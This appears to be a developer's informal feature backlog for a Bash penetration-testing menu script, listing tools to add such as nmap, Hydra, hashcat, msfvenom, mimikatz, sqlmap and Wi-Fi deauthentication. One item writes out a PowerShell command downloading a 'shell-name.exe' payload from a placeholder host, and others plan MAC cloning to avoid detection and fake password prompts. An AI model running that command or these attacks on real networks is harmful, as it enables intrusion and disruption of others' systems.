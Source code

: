 # Future Features

**This is the taks schedule, if you need something that is not on that list you have three options:**\
**1 -** You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.\
**2 -** If you need urgency, you can write the code and send it to me.\
**3 -** Pay me to implement the feature.\

**This list is constantly evolving, so duplicate items or grammatical errors are common here. Imagine this page as a great brainstorm.**\
**If you have any ideas, you can branch this page and commit to me. If the idea is good, I will implement**\

**1 -** The change mac menu is not working? Check this\
**2 -** Change and test torghost option to torghostNG\
**3 -** Implement Jhon the reaper here, there is a logic on my notion page\
**4 -** Change al the things that i need to chose an wifi card to the already developed selectedwificard\
**5 -** Study and implment nmap(Don't forget to make some funcion using -sS --script vuln) and put a option to chose the type of verbosity\
**6 -** Study and implment some functions using psexec.py\
**7 -** Study and implement mssqlclient.py.\
**8 -** There are other great tools in inpackt? like psexec and mssqlclient, check and implement.\
**9 -** Implement a menu to creat an temporary server using python, like python3 -m http.server 80, and the path to the server\
**10 -** Revist the script, read top from boton and see what can be done better\
**11 -** Change all the variables in the script to lowercase, its a best pratice\
**12 -** Check if there is a way to implment automatizations in metasploit here, to automate some tasks\
**13 -** Study and implement GoBuster, but, what i do about dirbuster?\
**14 -** Implement a menu for airodump and aircrack, to show conections, put in monitor mode and other functions\
**18 -** Implement Hydra, there is a logic in my Notion page\
**19 -** If i choose to mantin dirsearch, maybe i will need to put as root because the logs are not saving correctly\
**20 -** Revist the script, read top from boton and see what can be done better\
**21 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**22 -** Replace where is "test" for [[comand]]. Test is a obsolete function\
**22 -** Study and implment the crunch password, its great to create password lists\
**23 -** Revitalize the menu, style is everithing.\
**24 -** Study who to implement pyshark here, or maybe wait until this script be reworked in python\
**25 -** Study and implement responder.py\
**26 -** Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script\
**27 -** Study and implement hashcat\
**27 -** Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness\
**28 -** Replace all echos for printf, its better\
**29 -** See how i avoid to use eval, its too bat for security\
**30 -** Revist the script, read top from boton and see what can be done better\
**31 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**32 -** Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile\
**33 -** Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux\
**34 -** Study Msfvnom and implement, it is an excelent payload generator[:]\
**35 -** Study and implent pwncat\
**36 -** Create a menu with utilstuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell\
**37 -** study the best directory wordlist, to use in dirbuster or afuzz, or another tool\
**38 -** Study and implement wpscan, its a good tool to break into wordpress sites\
**39 -** Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some already created linux tools for this maybe only implement is suficient\
**40 -** Revist the script, read top from boton and see what can be done better\
**41 -** Study and implement rustscan, its a realy good tool.\
**42 -** Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts\
**43 -** Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti\
**44 -** Create a Function who update the script with the last features implemented in the github version\
**45 -** If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible\
**46 -** Organize the menu in a better way, is too confuse\
**47 -** Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"\
**48 -** Study massscan, its good for mass scaning ports, or rustscan? What is better?\
**49 -** Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about\
**50 -** Revist the script, read top from boton and see what can be done better\
**51 -** Study and implement msfvenom its a great tool to make palyloads\
**52 -** Study and implement nikto\
**53 -** Study and implement termshark, its good to see pcaps in terminal\
**54 -** Study and implement FFUF, its really fast because its in go\
**55 -** Implement option so search ".bak" in in websearches, it really good to see some codes, in cgi-bin its good to search for .sh for exemplo because shell shock atacks\
**56 -** Study and implement Uchecker, its a good tool to check for not uptodate tools on servers\
**57 -** Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users\
**58 -** Study and implment sublist3r, its a really great scanner for subdomains ussing ossint\
**59 -** Study and implment nikton its a good webscaner\
**60 -** Revist the script, read top from boton and see what can be done better\
**61 -** Study and implment social engenner tookit, its really god to work with social engineer\
**62 -** Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter\
**63 -** Implement wfuzz its preaty great\
**64 -** Study and Implement Sqlmap\
**65 -** Implement te 'sectlist' program from kali, its copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?\
**66 -** Study and implent enum4linux, its preaty good to use to enumerate samba shares\
**67 -** Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose\
**68 -** Study and implement sherlock, its a great tool for OSINT\
**69 -** Study and implement airgedon its good to do deauth atacks in softwarey\
**70 -** Revist the script, read top from boton and see what can be done better\
**71 -** What i can do to make this script more beautiful? Maybe some colors or ident?\
**72 -** Maybe Implement RustScan? Its so fast
73 - There is code who can be optimized by a function? for example, in slowhttptest i can create a function to pass the parameter(like -s, or -i, etc) an text and then apent de comand, think about
